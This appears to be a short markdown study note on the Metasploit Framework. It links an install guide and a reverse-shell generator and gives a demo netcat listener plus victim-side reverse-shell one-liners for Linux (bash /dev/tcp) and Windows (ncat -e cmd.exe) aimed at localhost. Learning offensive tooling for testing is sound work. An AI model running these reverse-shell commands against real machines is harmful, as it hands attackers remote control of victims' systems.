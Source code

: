 # Metasploit Framework

- [msfconsole install Ubuntu 20.04](https://kifarunix.com/install-metasploit-framework-on-ubuntu-22-04-ubuntu-20-04/)

## [0]. Reverse-shell

- [Tools Support Create Reverse-Shell](https://www.revshells.com/) .

- VD demo:
  - Attacker: `nc –lnvp 5555`
  - Victim: 
	- `Linux`: `bash -c "bash -i >& /dev/tcp/127.0.0.1/5555 0<&1"` 
	- `Windows`: `ncat 127.0.0.1 5555 -e cmd.exe`

- ...


## [1]. References


